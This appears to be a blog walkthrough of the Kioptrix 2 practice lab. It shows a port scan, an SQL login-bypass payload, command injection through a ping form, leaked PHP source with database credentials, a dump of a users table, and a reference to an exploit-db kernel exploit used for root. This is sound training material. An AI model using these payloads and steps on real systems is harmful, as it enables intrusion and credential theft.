 ```yaml
---
layout: post
title: Kioptrix 2 - Walkthrough
---
```


## Port 80
So I started out scanning the target for both tcp and udp and found this.

```
host           port  proto  name             state    info
----           ----  -----  ----             -----    ----
192.168.1.105  22    tcp    ssh              open     OpenSSH 3.9p1 protocol 1.99
192.168.1.105  68    udp    dhcpc            unknown  
192.168.1.105  80    tcp    http             open     Apache httpd 2.0.52 (CentOS)
192.168.1.105  111   tcp    rpcbind          open     2 RPC #100000
192.168.1.105  111   udp    rpcbind          open     2 RPC #100000
192.168.1.105  443   tcp    ssl/http         open     Apache httpd 2.0.52 (CentOS)
192.168.1.105  631   tcp    ipp              open     CUPS 1.1
192.168.1.105  631   udp    ipp              unknown  
192.168.1.105  782   udp    hp-managed-node  unknown  
192.168.1.105  3306  tcp    mysql            open     MySQL unauthorized
```

Of this what seems most suspecious is the HTTP and HTTPS, and port 631. So I got started on port 80.
There I found a login. And I started sqlmap and started firing away.
Meanwhile I thought I would try some sql-login-bypass

```
' or '1'='1
```

So here we got some kind of ping functionality. First I tested just anything, and it outputed what I inputed.
Then I tried with javascript, and it got executed. Then I tried to input some php, but it got filtered. So I tried to input my own ip. And it worked, so I started inputing other commands.

```
mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");

	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}
```

I tried the credencials on the ssh but was not working. I also tried connecting to the database. But was also not allowed.

```
ERROR 1130 (HY000): Host '192.168.1.102' is not allowed to connect to this MySQL server
```

So I log in to the database with my new shell:

```

sh-3.00$ mysql -u john -p webapp
mysql -u john -p webapp
Enter password: hiroshima

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 24748 to server version: 4.1.22

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show dbs;
show dbs;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'dbs' at line 1
mysql> show databases;
show databases;
+----------+
| Database |
+----------+
| mysql    |
| test     |
| webapp   |
+----------+
3 rows in set (0.00 sec)

mysql> use webapp
use webapp
Database changed
mysql> show tables;
show tables;
+------------------+
| Tables_in_webapp |
+------------------+
| users            |
+------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+------+----------+------------+
| id   | username | password   |
+------+----------+------------+
|    1 | admin    | 5afac8d85f |
|    2 | john     | 66lajGGbla |
+------+----------+------------+
2 rows in set (0.00 sec)
```

But none of those users worked to give me a ssh-session.

I did some enumeration and saw that nmap was installed so I tried the nmap-interactive trick. But it didn't work.

Linux version 2.6.9-55.EL (mockbuild@builder6.centos.org) (gcc version 3.4.6 20060404 (Red Hat 3.4.6-8)) #1 Wed May 2 13:52:16 EDT 2007

Then I started looking for kernel-exploits and found this one

```
/usr/share/exploitdb/platforms/linux/local/9542.c
```

So I compiled it and then ran it, and it gave me root.
